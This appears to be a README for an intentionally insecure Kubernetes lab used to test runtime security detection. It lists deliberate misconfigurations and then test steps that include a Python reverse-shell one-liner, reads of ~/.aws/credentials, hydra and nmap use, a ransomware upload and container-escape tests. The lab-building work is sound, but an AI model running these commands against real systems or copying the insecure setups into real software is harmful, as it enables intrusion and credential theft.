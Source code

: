 # Insecure Kubernetes Deployments

A repo meant for providing tools for security testing that is comically insecure. Another great tool is [Kubernetes Goat](https://github.com/madhuakula/kubernetes-goat), but I wanted more of a playground and less complexity.

## This Repo Contains the following issues:

### General Configuration Issues

1. Busybox is deployed as a long running pod with plenty of dangerous utilities on it
2. Insecure App has fake AWS access keys as env variables, mounts the docker socket, runs in privileged mode, is open on port 8080 and port 22, and binds an SA role with permissions to create more SA roles
3. Workload Security Evaluator contains all the same issues

### Insecure-app

1. Takes raw input as a web form and runs it as root on the server and returns the input to the user
2. Allows for unvalidated file uploads
3. Is running in debug mode
4. Has way more utilities on its Dockerfile than it needs

### Workload-security-evaluator

1. Is forked from [DataDog](https://github.com/DataDog/workload-security-evaluator)
2. Is used for running tests from [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)

## Deployment:

1. Create the namespaces `insecure-app` and `workload-security-evaluator`

```
kubectl create namespace insecure-app
kubectl create namespace workload-security-evaluator
```

2. Apply the deployment yamls

```
kubectl apply -f busybox.yaml
kubectl apply -f insecure-app.yaml
kubectl apply -f workload-security-evaluator.yaml
```

3. To test in these pods:

Get pod name, `kubectl get pods -n insecure-app` or `kubectl get pods -n workload-security-evaluator`

For testing insecure-app, run `kubectl port-forward pod/[POD-NAME] 8080:8080 -n insecure-app`. You can now test in your browser at `http://localhost:8080/`

For workload-security-evaluator, run `k exec -it [POD-NAME] -n workload-security-evaluator -- /bin/bash`, then `pwsh` to being invoking tests such as `Invoke-AtomicTest T1105-27 -ShowDetails`

# Testing 

## Misconfigurations

1. AWS creds in env variables
2. SSH port open
3. SA credentials have ability to create new credentials
4. Privileged container
5. Docker socket mounted

## Runtime

1. Run `python3 --version` and `ls -al` via the web form  - detects if it can tell that the python process is running bash commands
2. Run `apt-get update` and `apt-get install hydra -y` - to check for package installs
3. Scan the local port range to look for network detections - `nmap -sS 192.168.1.1-254`
4. Try to spawn a reverse shell
    - bash into workload-security and run `apt-get install netcat`
    - `nc -lvnp 9001`
    - `export RHOST="WORKLOAD-POD-IP";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
5. Check what secrets we might have access to `printenv` and `cat ~/.aws/credentials`
6. Upload ransomware python script `ransomware.py`- this will indicate the level of alerting, if it's new file, python, or specifics about the python
7. Exec into the workload security evaluator pod with `k exec -it [POD-NAME] -n workload-security-evaluator -- /bin/bash`, then `pwsh`
8. `Invoke-AtomicTest T1105-27` - download and run a file
9. `Invoke-AtomicTest T1046-2` - run nmap
10. `Invoke-AtomicTest T1053.003-2` - modify cron jobs
11. `Invoke-AtomicTest T1070.003-1` - clear bash history
12. `Invoke-AtomicTest T1611-1,2` - Container escape
13. Check agent utilization with `k top pod --all-namespaces`

Readme change